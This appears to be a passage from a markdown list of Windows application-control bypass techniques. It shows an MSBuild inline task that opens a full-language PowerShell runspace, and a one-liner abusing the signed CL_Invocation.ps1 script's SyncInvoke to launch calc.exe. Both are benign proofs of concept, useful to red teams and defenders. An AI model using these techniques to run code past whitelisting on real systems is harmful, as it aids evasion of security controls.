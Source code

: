 ``` stylus
                {
                    InitialSessionState iss = InitialSessionState.CreateDefault();
                    iss.LanguageMode = PSLanguageMode.FullLanguage;
                    Runspace runspace = RunspaceFactory.CreateRunspace(iss);
                    runspace.Open();
                    RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);
                    Pipeline pipeline = runspace.CreatePipeline();
 Console.WriteLine(System.Management.Automation.Security.SystemPolicy.GetSystemLockdownPolicy());                
                    pipeline.Commands.AddScript("[Math]::Sqrt(9)"); 
                    //Prep PS for string output and invoke
                    pipeline.Commands.Add("Out-String");
                    Collection<PSObject> results = pipeline.Invoke();
                    runspace.Close();
                    StringBuilder stringBuilder = new StringBuilder();
                    foreach (PSObject obj in results)
                    {
                        stringBuilder.Append(obj);
                    }
                    return stringBuilder.ToString().Trim();       
                }
            }
                            
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
link:
http://www.ggsec.cn/%E6%AF%8F%E6%97%A5%E5%AE%89%E5%85%A8%E5%B9%B2%E8%B4%A7%E5%8F%8A%E5%8A%A8%E6%80%81.html

https://github.com/re4lity/subTee-gits-backups





## 4.CL_Invocation.ps1
``` stylus
"powershell.exe Get-AuthenticodeSignature C:\\Windows\\diagnostics\\system\\AERO\\CL_Invocation.ps1;. C:\\Windows\\diagnostics\\system\\AERO\\CL_Invocation.ps1;SyncInvoke  calc.exe
```
Link:
https://twitter.com/bohops/status/948061991012327424







## 5.forfiles
